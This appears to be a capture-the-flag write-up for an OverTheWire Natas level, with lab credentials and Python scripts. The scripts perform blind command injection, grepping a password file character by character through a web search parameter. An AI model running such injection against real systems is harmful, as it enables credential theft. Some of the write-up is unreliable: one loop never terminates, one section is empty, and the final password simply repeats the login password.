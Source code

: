 # [Level 15 to 16](https://overthewire.org/wargames/natas/natas16.html)

- Login
```
URL: http://natas16.natas.labs.overthewire.org
Username: natas16
Password: hPkjKYviLQctEW33QmuXL6eDVfMW4sGo
```
- Exercise:
  - ![image](https://github.com/user-attachments/assets/b87d0948-ffda-4d57-b1f9-bc112973b631)
  - ![image](https://github.com/user-attachments/assets/fcbd0cdd-2a78-44c0-9c66-95add35b1b62)
- Background:
- Solution:
  - python script to find valid characters:
  ```python
  import requests
  import string
  from requests.auth import HTTPBasicAuth
  
  basicAuth=HTTPBasicAuth('natas16', 'hPkjKYviLQctEW33QmuXL6eDVfMW4sGo')
  
  u="http://natas16.natas.labs.overthewire.org/"
  
  VALID_CHARS = string.digits + string.ascii_letters
  
  matchingChars = ""
  
  for c in VALID_CHARS:
      payload = "$(grep " + c + " /etc/natas_webpass/natas17)zigzag"
      url = u + "?needle=" + payload + "&submit=Search"
  
      response = requests.get(url, auth=basicAuth, verify=False)
  
      if 'zigzag' not in response.text:
          print("Found a valid char : %s" % c)
          matchingChars += c
  
  print("Matching chars: ", matchingChars)
  ```
  - Output:
  ```bash
  Found a valid char : 0
  Found a valid char : 5
  Found a valid char : 7
  Found a valid char : 8
  Found a valid char : 9
  Found a valid char : b
  Found a valid char : h
  Found a valid char : j
  Found a valid char : k
  Found a valid char : o
  Found a valid char : q
  Found a valid char : s
  Found a valid char : v
  Found a valid char : w
  Found a valid char : C
  Found a valid char : E
  Found a valid char : F
  Found a valid char : H
  Found a valid char : J
  Found a valid char : L
  Found a valid char : N
  Found a valid char : O
  Found a valid char : T
  Matching chars:  05789bhjkoqsvwCEFHJLNOT
  ```
  - python script to iterate through the matching chars:
  ```python
  import requests
  import string
  from requests.auth import HTTPBasicAuth
  
  basicAuth=HTTPBasicAuth('natas16', 'hPkjKYviLQctEW33QmuXL6eDVfMW4sGo')
  u="http://natas16.natas.labs.overthewire.org/"
  
  PASSWORD_LENGTH = 32  # previous passwords were 32 chars long
  matchingChars = "05789bhjkoqsvwCEFHJLNOT"
  password="" # start with blank password
  
  while True:
      for c in matchingChars:
          payload = "$(grep " + password + c + " /etc/natas_webpass/natas17)zigzag"
  
          url = u + "?needle=" + payload + "&submit=Search"
  
          print(url)
  
          response = requests.get(url, auth=basicAuth, verify=False)
  
          if 'zigzag' not in response.text:
              print("Found a valid char : %s" % (password+c))
              password += c
  ```
  - python script to iterate through each of the valid chars and doing a POST request
- Password: `hPkjKYviLQctEW33QmuXL6eDVfMW4sGo`

